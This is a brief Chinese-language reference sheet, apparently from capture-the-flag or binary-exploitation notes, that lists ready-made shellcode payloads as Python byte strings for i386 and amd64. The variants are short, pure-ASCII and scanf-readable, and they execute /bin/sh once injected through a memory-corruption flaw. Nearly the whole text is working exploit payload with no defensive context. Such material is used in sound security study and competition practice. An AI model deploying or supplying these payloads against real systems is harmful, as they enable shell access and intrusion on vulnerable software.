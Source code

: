 ## shellcode编码

### i368

#### 短字节shellcode --> 21字节

```python
payload = b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'
```

#### 纯ascii字符shellcode

```python
payload = b'PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA'
```

#### scanf可读取的shellcode

```python
payload = b'\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh'
```

### amd64

#### scanf可读取的shellcode 22字节

```python
payload = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05'
```

#### 较短的shellcode  23字节

```python
payload = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
```

#### 纯ascii字符shellcode

```python
payload = b'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
```

